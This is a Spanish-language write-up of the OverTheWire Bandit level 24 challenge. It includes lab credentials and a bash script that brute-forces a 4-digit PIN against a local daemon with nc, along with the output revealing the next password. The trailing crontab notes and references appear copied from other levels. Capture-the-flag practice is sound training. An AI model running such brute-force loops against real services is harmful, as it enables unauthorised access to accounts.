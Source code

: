 ## Objetivo

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time
## Datos de acceso
- Puerto: 2220
- Host: bandit.labs.overthewire.org
- Contraseña: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
- Usuario: **bandit24

## Solución

Para poder acceder a la bandera se genero un script que siguiera las reglas que se piden para poder acceder a la contraseña y se ejecutara en un ciclo for hasta poder conseguir el resultado, por lo cual el script fue el siguiente:

```
#!/bin/bash

bandit24Pass=VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

for pin in {0000..9999}; do
        echo "$bandit24Pass $pin"
done | nc localhost 30002
```

```
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
```

## Notas adicionales

A _crontab_ file contains instructions to the **[cron](https://linux.die.net/man/8/cron)**(8) daemon of the general form: "run this command at this time on this date". Each user has their own crontab, and commands in any given crontab will be executed as the user who owns the crontab. Uucp and News will usually have their own crontabs, eliminating the need for explicitly running **[su](https://linux.die.net/man/1/su)**(1) as part of a cron command.

Blank lines and leading spaces and tabs are ignored. Lines whose first non-space character is a pound-sign (#) are comments, and are ignored. Note that comments are not allowed on the same line as cron commands, since they will be taken to be part of the command. Similarly, comments are not allowed on the same line as environment variable settings.

An active line in a crontab will be either an environment setting or a cron command. An environment setting is of the form,

name = value

where the spaces around the equal-sign (=) are optional, and any subsequent non-leading spaces in _value_ will be part of the value assigned to _name_. The _value_ string may be placed in quotes (single or double, but matching) to preserve leading or trailing blanks.

## Referencias

[ls(1) - Linux manual page (man7.org)](https://man7.org/linux/man-pages/man1/ls.1.html)
[cat(1) - Linux manual page (man7.org)](https://man7.org/linux/man-pages/man1/cat.1.html)
[file(1) - Linux manual page (man7.org)](https://man7.org/linux/man-pages/man1/file.1.html)
[find(1) - Linux manual page (man7.org)](https://man7.org/linux/man-pages/man1/find.1.html)

[SSH/OpenSSH/Keys - Community Help Wiki (ubuntu.com)](https://help.ubuntu.com/community/SSH/OpenSSH/Keys)
[cron (Unix) - Wikipedia, la enciclopedia libre](https://es.wikipedia.org/wiki/Cron_(Unix))